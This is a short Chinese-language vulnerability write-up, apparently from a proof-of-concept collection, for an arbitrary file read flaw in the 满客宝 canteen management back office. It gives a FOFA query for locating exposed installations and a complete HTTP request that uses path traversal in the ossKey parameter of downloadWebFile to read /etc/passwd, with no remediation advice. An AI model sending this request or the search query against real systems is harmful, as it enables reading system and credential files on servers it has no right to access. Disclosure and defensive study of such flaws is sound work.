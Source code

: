# 满客宝后台管理系统downloadWebFile任意文件读取漏洞

# 一、漏洞简介
满客宝后台管理系统downloadWebFile任意文件读取漏洞

# 二、影响版本
+ 满客宝智慧食堂

# 三、资产测绘
+ fofa`body="满客宝后台管理系统"`
+ 特征

![1722532363550-337cb4d1-c45a-4dcf-a328-7b077525c2ef.png](./img/aKSqtnroQS-WMtFo/1722532363550-337cb4d1-c45a-4dcf-a328-7b077525c2ef-922609.png)

# 四、漏洞复现
```java
GET /base/api/v1/kitchenVideo/downloadWebFile.swagger?fileName=&ossKey=/../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
```

![1722532515012-fbfcea9f-a5f9-4633-a9ce-f598bf620cec.png](./img/aKSqtnroQS-WMtFo/1722532515012-fbfcea9f-a5f9-4633-a9ce-f598bf620cec-890321.png)



> 更新: 2024-08-12 17:15:58  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/brcqc05pkowbygvw>